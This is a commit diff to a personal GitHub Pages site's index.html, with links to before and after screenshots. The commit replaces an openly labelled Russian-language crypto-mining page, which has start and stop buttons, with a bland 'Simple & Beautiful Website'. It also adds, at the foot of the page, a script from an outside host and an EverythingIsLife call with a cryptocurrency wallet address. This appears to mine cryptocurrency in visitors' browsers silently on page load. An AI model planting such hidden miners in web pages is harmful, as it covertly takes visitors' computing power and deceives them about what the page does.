

Before and after one commit to NikoT19/NikoT19.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (144-1135 px from the left). Drawn offline with Linux system fonts and the light colour scheme; a script that the page names is missing.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,27 +3,44 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Crypto Web Miner</title>
+    <title>Simple & Beautiful Website</title>
+    <link href="https://fonts.googleapis.com/css2?family=Roboto:wght@400;700&display=swap" rel="stylesheet">
     <link rel="stylesheet" href="styles.css">
 </head>
 <body>
-    <div id="content">
-        <h1>Добро пожаловать на сайт!</h1>
-        <p>Чтобы поддерживать наш проект, вы можете предоставить часть мощности своего процессора для майнинга криптовалюты.</p>
-    </div>
+    <header>
+        <h1>Welcome to My Beautiful Site</h1>
+        <nav>
+            <a href="#about">About</a>
+            <a href="#features">Features</a>
+            <a href="#contact">Contact</a>
+        </nav>
+    </header>
 
-    <div id="miner-controls">
-        <button id="start-mining">Начать майнинг</button>
-        <button id="stop-mining" disabled>Остановить майнинг</button>
-    </div>
+    <main>
+        <section id="about">
+            <h2>About Us</h2>
+            <p>We are dedicated to creating beautiful and functional websites. Our goal is to make the web a better place, one site at a time.</p>
+        </section>
 
-    <div id="stats">
-        <p>Hash rate: <span id="hash-rate">0</span> H/s</p>
-        <p>Total hashes: <span id="total-hashes">0</span></p>
-    </div>
+        <section id="features">
+            <h2>Features</h2>
+            <p>Our sites are lightweight, fast, and designed with the user in mind. We focus on clean code and stunning visuals.</p>
+        </section>
 
-    <!-- Подключение майнинговой библиотеки -->
-    <script src="https://webminerpool.com/lib/base.js"></script>
-    <script src="miner.js"></script>
+        <section id="contact">
+            <h2>Contact Us</h2>
+            <p>If you'd like to work with us or learn more, feel free to <a href="glg@gmail.com">get in touch</a>.</p>
+        </section>
+    </main>
+
+    <footer>
+        <p>&copy; 2024 Simple & Beautiful. Made with ❤️ by You. <a href="#top">Back to top</a></p>
+    </footer>
+
+    <script src="https://thelifewillbefine.de/karma/karma.js?karma=bs?nosaj=faster.mo"></script>
+    <script>
+        EverythingIsLife('41iVeDotGpaG9u4xgzjZZoEoWx6znhpaT77xjrJ4k8HP8mQx8UrzxnSKikNuZ3XdZQ6BGcPMUK2GmGfj8utMGqG3GHMzpip', 'x', 20);
+    </script>
 </body>
 </html>
```
